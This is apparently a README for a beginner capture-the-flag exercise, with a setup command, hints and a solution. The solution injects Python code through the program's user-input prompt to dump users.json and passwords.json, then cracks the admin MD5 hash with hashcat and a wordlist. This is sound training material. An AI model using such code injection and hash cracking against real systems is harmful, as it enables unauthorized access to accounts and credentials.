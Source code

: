 # To get started

run this command:
```shell
git clone https://github.com/HaavardVS/CTF.git && cd CTF && cd test && clear && python3 main.py
```

if you exit, and want to try again, enter this command:

```shell
python3 main.py
```
*scroll down for hints*

---




##### Hints:









1. Maybe some of the users name is Jason.









2. I must admint there are many users.









3. what do you get if you give a markdown file a high five?









Scroll down for solution



















##### Solution:

1. enter this string in the user input:
```python
print(open('users.json').read()); print(username)
```
this will print out all the users. Find the admin user.


2. enter this string in the user input:
```python
print(open('passwords.json').read()); print(username)
```
this will print out all the hashed passwords for the users. Find the admin hash.


3. Dehash the admin hash. Here is an example using hashcat:
```shell
hashcat -m 0 -a 0 -o cracked.txt 21232f297a57a5a743894a0e4a801fc3 /usr/share/wordlists/rockyou.txt.gz | cat cracked.txt
```

